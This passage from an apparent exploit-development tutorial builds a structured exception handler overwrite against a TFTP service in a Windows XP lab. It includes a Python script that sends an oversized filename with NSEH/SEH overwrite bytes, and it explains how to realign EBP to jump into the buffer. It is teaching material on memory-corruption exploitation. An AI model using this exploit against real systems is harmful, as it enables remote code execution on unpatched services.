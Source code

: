 So we can see we go back `0x7E` or 126 bytes from where we execute our jump. Our new exploit taking this in account is as follows:

```python
import socket 

host = "127.0.0.1"
port = 69 

filename = "A" * (1492-126)
filename += "\xCC" * 126
filename += "\xeb\x80\x90\x90" # NSEH overwrite
filename += "\x05\x96\x40" # SEH overwrite 

mode = "netascii" 
data = "\x00\x02" + filename + "\0" + mode + "\0" 

handler = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
handler.sendto(data, (host,port))
```

Lets check that works:

[![](https://4.bp.blogspot.com/-4AQaZipUEjg/UK6GGBoSO0I/AAAAAAAAAHI/Gl3gHZ1Jczw/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_036.png)](https://4.bp.blogspot.com/-4AQaZipUEjg/UK6GGBoSO0I/AAAAAAAAAHI/Gl3gHZ1Jczw/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_036.png)

Yep looks like its working like a charm!

## Aligning EBP

Ok now notice that the register EBP points near to our buffer. Right click on EBP, click `Follow in Stack` and then double click on the first entry. Scroll down a bit and you should notice the following:

[![](https://3.bp.blogspot.com/-pbg9ss6gq2c/UK6I2Fr3C2I/AAAAAAAAAHU/LdyEjtanx3c/s0/Selection_037.png)](https://3.bp.blogspot.com/-pbg9ss6gq2c/UK6I2Fr3C2I/AAAAAAAAAHU/LdyEjtanx3c/s0/Selection_037.png)

We can increase EBP to get it to point to the beginning of our buffer of `\x41`'s by doing the following:

[![](https://3.bp.blogspot.com/-YTKrPQ539kM/UK6LJq8czWI/AAAAAAAAAHk/pEGE2HZ2AAk/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_038.png)](https://3.bp.blogspot.com/-YTKrPQ539kM/UK6LJq8czWI/AAAAAAAAAHk/pEGE2HZ2AAk/s0/Windows+XP+Professional+SP2+-+VMware+Player+(Non-commercial+use+only)_038.png)

By doing `\x83\xC5\x50` 15 times over to increase EBP to the right and then doing `\xFF\xE5` to execute a JMP EBP, we actually jump directly to the beginning of the buffer.

Additionally, I'd like to point out a few important things r.e this picture:

* If you look in the register menu you can see EBP pointing to our string of A's.
* You can see these A's in the bottom left panel (btw this is not shown but the next line up is the name of the program so this is literally the first line of A's that we sent).
